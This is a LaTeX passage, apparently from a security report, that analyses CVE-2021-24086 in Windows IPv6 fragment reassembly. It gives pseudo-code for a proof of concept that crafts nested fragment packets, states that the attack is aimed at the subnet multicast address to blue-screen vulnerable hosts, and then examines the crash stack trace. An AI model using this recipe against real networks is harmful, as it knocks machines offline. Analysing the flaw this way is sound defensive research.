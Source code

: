 \documentclass{report}
\begin{document}
Pseudo-code for this \gls{POC} can be seen in listing \ref{listing:poc:pseudo}

\begin{listing}[H]
\begin{verbatim}
first_fragment_id = random.randint()
second_fragment_id = random.randint()

packet1 = IPv6Header + IPv6ExtHdrDestOpt1 + IPv6ExtHdrDestOpt2 + IPv6ExtHdrDestOpt.. + IPv6ExtHdrDestOptN
packet1 += IPv6ExtHdrFragment(fragment_header_id = second_fragment_id)
packet1 += UDPPacket

packet1_fragments = fragment(packet1)

packet2 = IPv6Header + IPv6ExtHdrFragment(fragment_header_id = second_fragment_id) + 'Dummy data'

send(packet1_fragments)
send(packet2)
\end{verbatim}
\caption{Pseudo-code \gls{POC} for triggering CVE-2021-24086}
\label{listing:poc:pseudo}
\end{listing}

An implementation of the pseudo-code can be found in Appendix \ref{appendix:poc}. As the \gls{POC} is hardcoded to run against the IPv6 multicast address, \emph{ff02::1}, it will run against any machines present on the current IPv6 subnet. Running the \gls{POC} with a vulnerable Windows machine present will result in a \gls{BSOD} on the vulnerable machine as seen on , where it can also be seen that the crash originated from \texttt{tcpip.sys}.

{bsod.tex}

If the same \gls{POC} is run with a debugger attached, we get the output seen on listing \ref{listing:poc:windbg} showing the details around the crash.

{windbg-stacktrace.tex}

Examining the stacktrace seen in listing \ref{listing:poc:windbg} we can see that the crash happens at \texttt{Ipv6pReassembleDatagram+0x14f} coming from \texttt{Ipv6pReceiveFragment+0x84a} which matches the root-cause found in . Line \emph{(1)} also highlights that this is infact a NULL pointer dereference as the instruction \texttt{moveups} attempts to write to the address NULL.
\end{document}
